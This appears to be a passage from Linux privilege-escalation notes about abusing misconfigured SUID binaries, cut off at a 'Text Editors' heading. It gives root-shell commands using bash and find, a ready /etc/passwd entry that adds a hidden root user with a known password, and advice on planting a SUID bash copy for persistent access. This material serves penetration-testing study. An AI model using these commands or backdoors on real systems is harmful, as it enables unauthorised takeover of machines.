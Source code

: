 For the last point try to enumerate the versions and search google/searchsploit for exploits.

```bash
# Example version enumeration on SUID binary
/usr/sbin/exim --version
/usr/sbin/exim -v
```

Use **GTFOBins** (also Google) to find ways to exploit the found binaries: https://gtfobins.github.io/


## Binaries that should not have SUID

Sometimes users set the wrong permissions on files by accident or out of convenience.

Here are some examples of how to exploit such user error SUID files.

### bash

If /bin/bash has a SUID bit set for some reason, then you can just execute it with the -p parameter and gain a root shell.

```bash
/bin/bash -p
# root shell pops here
```

You can also create this vulnerability on purpose if you want to create a persistant way to elevate to root post-exploitation. Just copy bash to /tmp and set the suid bit with chmod.

### cp

If /bin/cp has a SUID bit set for some reason, then you can simply overwrite important files.

Make a backup of /etc/passwd and then replace it with your own tampered version, which contains another root user.

Example (password is cowabunga77):
```bash
hack:$1$hack$Ms0RDU0fPwY2uBBL9/Cnb/:0:0:root:/root:/bin/bash
```

### find

If /bin/find has a SUID bit set for some reason, then you can execute commands as root using the exec keyword.

```bash
cd /tmp
touch bigfoot
find bigfoot -exec "whoami" \;

# prints "root"
```

### Text Editors
